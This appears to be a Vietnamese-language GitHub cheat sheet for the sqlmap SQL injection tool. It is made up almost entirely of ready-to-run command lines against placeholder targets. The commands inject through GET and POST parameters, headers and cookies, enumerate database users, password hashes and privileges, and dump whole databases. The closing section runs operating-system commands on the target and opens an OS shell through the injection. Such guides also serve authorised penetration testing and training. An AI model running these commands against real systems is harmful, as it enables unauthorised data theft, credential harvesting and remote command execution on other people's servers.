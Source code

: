 > [!NOTE]
> Những dữ liệu năm trong ngoặc ngọn ```<>``` là dữ liệu tuỳ chỉnh
# Khai thác nhanh (bỏ qua các tuỳ chọn)
- Lệnh quét nhanh sẽ bỏ qua các tuỳ chọn được đưa ra trong quá trình quét, nhưng vẫn có thể thu về các thông tin cơ bản về lỗ hổng
- Câu lệnh sử dựng khi chưua có thông tin về mục tiêu
  
		sqlmap -u "<http://example.com>" --forms --flush-session --answers="form=Y,fill blank fields=n,skip=Y,tests=N,follow=N,keep=N,quit=Y,resume=Y" --batch
- **Lưu ý**: Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
# Khai thác toàn bộ
- Quét và thực hiện khai thác lỗ hổng với các tuỳ chọn mặc định
  
		sqlmap -u "<http://example.com>" --forms --flush-session --batch --all
- **Lưu ý**: Tuỳ chọn ```--flush-session``` để xoá phiên làm việc trước đó, nếu cần sử dụng dữ liệu từ phiên làm việc trước thì cần bỏ tuỳ chọn này
# Các lệnh tuỳ chỉnh
- Lệnh cơ bản:

		sqlmap -u <URL> [OPTIONS]
- Ta sẽ kết hợp câu lệnh cơ bản với các tuỳ chọn để phù hợp với từng mục đích
## Tuỳ chỉnh Request
- Cung cấp file Request:
  
		sqlmap -r <req.txt> --batch 
- Chỉ định tham số cho GET Request:

		sqlmap -u "<http://example.com/?id=*>" -p <id> --batch
- Chỉ định tham số cho POST Request:
  
 		sqlmap -u "<http://example.com>" --data="<username=*&password=*>" --batch
- Chỉ định Headers:

		sqlmap -u "<http://example.com>" --headers="<x-forwarded-for:127.0.0.1*>" --batch --forms
		sqlmap -u "<http://example.com>" --headers="<referer:*>" --forms
- Chỉ định cookie:
  
		sqlmap  -u "<http://example.com>" --cookie "<mycookies=*>" --forms --batch
- Chỉ định HTTP method:

		sqlmap --method=PUT -u "<http://example.com>" --forms --batch
- Chỉ định User-agent:

   		sqlmap -u "<http://example.com>" --user-agent=<SQLMAP> --forms --batch
## Thu thập thông tin
### Thông tin nội bộ
- Thông tin về người dùng hiện tại:

  		sqlmap -u "<http://example.com>" --current-user --forms --batch
- Kiểm tra người dùng hiện tại có phải admin không

		sqlmap -u "<http://example.com>" --is-dba --forms --batch
- Thông tin hostname:

		sqlmap -u "<http://example.com>" --hostname --forms --batch
- Thông tin các user hệ thống

		sqlmap -u "<http://example.com>" --users --forms --batch
- Thông tin về password của các users
  
		sqlmap -u "<http://example.com>" --password --forms --batch
- Thông tin về đặc quyền của các users

		sqlmap -u "<http://example.com>" --privileges --forms --batch
### Dữ liệu từ Database
- Các options chỉ định, có thể thêm vào các lệnh bên dưới để chỉ định DB, bảng, cột để lấy dữ liệu:
  - ```-D <DB NAME>```: Chỉ định Database
  - ```-T <TABLE NAME>```: Chỉ định bảng
  - ```-C <COLUMN NAME>```: Chỉ định cột
- Toàn bộ dữ liệu
  
  		sqlmap -u "<http://example.com>" --all --forms --batch
- Dữ liệu từ đối tượng được chỉ đinh

		sqlmap -u "<http://example.com>" -D <DB_NAME> -T <TABLE> -C <COLUMN> --forms --batch --dump
- Liệt kê các bảng

		sqlmap -u "<http://example.com>" --tables --forms --batch
- Liệt kê các cột

		sqlmap -u "<http://example.com>" --columns --forms --batch
## Shell
- Thực thi lệnh được chỉ định

  		sqlmap -u "<http://example.com>" --forms --batch --os-cmd <whoami>
- Mở Shell
  
		sqlmap -u "<http://example.com>" --forms --batch --os-shell
